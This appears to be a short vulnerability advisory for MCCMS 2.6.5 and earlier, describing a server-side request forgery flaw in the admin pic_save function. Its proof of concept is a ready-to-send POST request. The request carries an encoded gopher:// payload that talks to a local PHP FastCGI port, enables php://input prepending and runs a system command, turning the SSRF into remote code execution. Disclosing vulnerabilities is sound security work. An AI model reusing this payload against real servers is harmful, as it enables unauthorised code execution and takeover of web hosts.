


# MCCMS is vulnerable to Server-side request forgery (SSRF)
## Description
    MCCMS <= 2.6.5 is vulnerable to Server-side request forgery (SSRF)
## Vendor Homepage
    https://github.com/chshcms/mccms/

## Author
    HuBenLab
## Proof of Concept
The problem lies in the pic_save function in `sys/apps/controllers/admin/Comic.php`, which is utilized to cause ssrf by controlling `$pic`.



payload:

```
http://172.16.5.221:84/admin.php/Comic/pic_save

post：
pic=gopher://127.0.0.1:7400/_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%252A%2502%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH72%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%253DSCRIPT_FILENAME%2Fwww%2Fadmin%2Fwww.mancheng.com_84%2Fwwwroot%2Fmccms-master%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%2500H%2504%2500%253C%253Fphp%2520system%2528%2527touch%2520%2Ftmp%2F123123123%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500&mid=1&tb=1
```

